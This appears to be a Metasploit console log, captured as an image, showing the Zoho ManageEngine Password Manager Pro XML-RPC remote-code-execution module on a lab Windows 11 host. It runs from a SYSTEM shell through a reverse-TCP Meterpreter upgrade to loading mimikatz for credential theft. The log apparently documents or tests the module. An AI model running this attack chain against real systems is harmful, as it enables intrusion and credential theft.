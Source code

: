 ```
Shell Banner:
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ManageEngine\PMP\bin>
-----
          

C:\Program Files\ManageEngine\PMP\bin>whoami
whoami
nt authority\system

C:\Program Files\ManageEngine\PMP\bin>background

Background session 1? [y/N]  y   
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                      Connection
  --  ----  ----               -----------                                      ----------
  1         shell cmd/windows  Shell Banner: Microsoft Windows [Version 10.0.2  172.17.255.112:8899 -> 172.17.245.94:56612 (172.
                               2000.795] (c) Microsoft Corpo...                 17.245.94)

msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.255.112:4433 
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > 
[*] Sending stage (200774 bytes) to 172.17.245.94
[*] Meterpreter session 2 opened (172.17.255.112:4433 -> 172.17.245.94:56631) at 2022-08-02 11:38:11 -0500
[*] Stopping exploit/multi/handler

msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  1         shell cmd/windows        Shell Banner: Microsoft Windows [Version 10.  172.17.255.112:8899 -> 172.17.245.94:56612 (1
                                     0.22000.795] (c) Microsoft Corpo...           72.17.245.94)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN11-TEST              172.17.255.112:4433 -> 172.17.245.94:56631 (1
                                                                                   72.17.245.94)

msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
```